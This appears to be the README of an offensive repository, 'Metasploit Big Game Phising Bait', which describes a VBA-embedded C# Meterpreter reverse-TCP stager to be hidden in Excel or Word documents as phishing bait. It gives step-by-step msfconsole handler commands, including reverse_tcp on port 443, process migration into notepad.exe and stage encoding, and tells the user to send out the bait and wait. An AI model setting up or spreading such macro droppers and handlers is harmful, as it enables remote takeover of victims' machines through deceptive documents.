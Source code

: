 ```
   _____                                _____          __
  /     \ _____    ___________  ____   /     \   _____/  |_  ___________
 /  \ /  \\__  \ _/ ___\_  __ \/  _ \ /  \ /  \_/ __ \   __\/ __ \_  __ \
/    Y    \/ __ \\  \___|  | \(  <_> )    Y    \  ___/|  | \  ___/|  | \/
\____|__  (____  /\___  >__|   \____/\____|__  /\___  >__|  \___  >__|
        \/     \/     \/                     \/     \/          \/

                       Metasploit Big Game Phising Bait - by Cn33liz 2017
```
### VBA Reversed TCP Meterpreter Stager
CSharp Meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw
https://github.com/tyranid/DotNetToJScript

```
Usage:
Change RHOST and RPORT to suit your needs:

Then create an awesome Excel or Word Document containing your VBA Bait

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 443
set AutoRunScript post/windows/manage/migrate NAME=notepad.exe
set EXITFUNC thread
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j

Then throw out your Bait and wait...
```
